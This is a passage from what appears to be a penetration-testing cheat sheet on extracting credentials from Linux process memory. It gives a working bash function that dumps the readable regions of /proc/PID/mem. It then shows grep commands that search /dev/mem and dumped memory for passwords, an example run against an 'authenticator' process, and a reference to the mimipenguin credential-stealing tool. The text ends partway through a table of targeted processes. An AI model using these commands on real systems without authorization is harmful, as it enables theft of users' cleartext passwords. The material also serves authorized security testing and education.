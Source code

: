 /proc/$pid/maps &  /proc/$pid/mem
For a given process ID, maps shows how memory is mapped within that processes' virtual address space; it also shows the permissions of each mapped region. The mem pseudo file exposes the processes memory itself. From the maps file we know which memory regions are readable and their offsets. We use this information to seek into the mem file and dump all readable regions to a file.

procdump()
(
    cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
    while read a b; do
        dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
           skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
    done )
    cat $1*.bin > $1.dump
    rm $1*.bin
)
/dev/mem
/dev/mem provides access to the system's physical memory, not the virtual memory. The kernels virtual address space can be accessed using /dev/kmem.
Typically, /dev/mem is only readable by root and kmem group.

strings /dev/mem -n10 | grep -i PASS
Tools
To dump a process memory you could use:

​https://github.com/hajzer/bash-memory-dump (root) - You can manually remove root requirements and dump process owned by you

Script A.5 from https://www.delaat.net/rp/2016-2017/p97/report.pdf (root is required)

Credentials from Process Memory
Manual example
If you find that the authenticator process is running:

ps -ef | grep "authenticator"
root      2027  2025  0 11:46 ?        00:00:00 authenticator
You can dump the process (see before sections to find different ways to dump the memory of a process) and search for credentials inside the memory:

./dump-memory.sh 2027
strings *.dump | grep -i password
mimipenguin
The tool https://github.com/huntergregal/mimipenguin will steal clear text credentials from memory and from some well known files. It requires root privileges to work properly.

Feature

Process Name

GDM password (Kali Desktop, Debian Desktop)

gdm-password

Gnome Keyring (Ubuntu Desktop, ArchLinux Desktop)

gnome-keyring-daemon

